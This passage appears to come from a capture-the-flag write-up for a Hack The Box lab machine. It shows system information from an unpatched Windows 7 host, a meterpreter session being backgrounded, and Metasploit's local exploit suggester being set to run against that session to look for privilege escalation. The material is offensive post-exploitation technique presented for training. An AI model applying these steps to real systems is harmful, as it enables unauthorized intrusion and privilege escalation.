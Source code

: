```text
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 28/7/2017
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 698 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.542 MB
Virtual Memory: In Use:    505 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

So this is a Windows 7 box with no hotfixes. Exit out of shell and put session in background:

```text
c:\windows\system32\inetsrv>exit
exit
meterpreter > background
[*] Backgrounding session 1...
```

Use search to find the exploit suggester:

```text
msf5 exploit(multi/handler) > search suggest

Matching Modules
================
   #  Name                                             Disclosure Date  Rank    Check  Description
   -  ----                                             ---------------  ----    -----  -----------
   0  auxiliary/server/icmp_exfil                                       normal  No     ICMP Exfiltration Service
   1  exploit/windows/browser/ms10_018_ie_behaviors    2010-03-09       good    No     MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   2  exploit/windows/smb/timbuktu_plughntcommand_bof  2009-06-25       great   No     Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   3  post/multi/recon/local_exploit_suggester                          normal  No     Multi Recon Local Exploit Suggester
   4  post/osx/gather/enum_colloquy                                     normal  No     OS X Gather Colloquy Enumeration

msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > options
Module options (post/multi/recon/local_exploit_suggester): 
   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
```